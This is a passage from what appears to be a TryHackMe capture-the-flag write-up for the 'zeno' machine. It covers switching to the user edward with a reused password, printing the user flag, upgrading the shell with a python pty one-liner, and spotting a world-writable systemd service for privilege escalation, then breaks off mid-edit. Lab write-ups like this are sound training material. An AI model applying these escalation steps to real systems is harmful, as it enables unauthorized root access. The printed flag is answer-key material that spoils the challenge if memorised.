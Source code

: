 But, when I tried this combination, it doesn't work. So I checked the **linpeas.sh** result and I noticed that
```
╔══════════╣ Searching root files in home dirs (limit 30)
/home/
/home/edward
/home/edward/.bash_logout
/home/edward/.bash_profile
/home/edward/.bashrc
/home/edward/user.txt
/home/edward/.viminfo
/home/edward/.bash_history
/home/edward/.ssh
/root/
```
I tried as **username** --> **edward** with the previous **password**
```
bash-4.2$ su edward
su edward
Password: FrobjoodAdkoonceanJa
whoami
edward
```
```
cd ~
ls
user.txt
cat user.txt
THM{070cab2c9dc622e5d25c0709f6cb0510}
```
**Question**
#### user.txt
**Answer** 
#### THM{070cab2c9dc622e5d25c0709f6cb0510}
---
### Privilege escalation
Before any other action , let's upgrade the shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Let's check what I can do know
```
sudo -l
Matching Defaults entries for edward on zeno:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User edward may run the following commands on zeno:
    (ALL) NOPASSWD: /usr/sbin/reboot
```
After a new **linpeas.sh**, I found that
```
ls -la /etc/systemd/system/zeno-monitoring.service
-rw-rw-rw-. 1 root root 141 Sep 21  2021 /etc/systemd/system/zeno-monitoring.service
```    
Edit the file
```
cat /etc/systemd/system/zeno-monitoring.service
[Unit]
```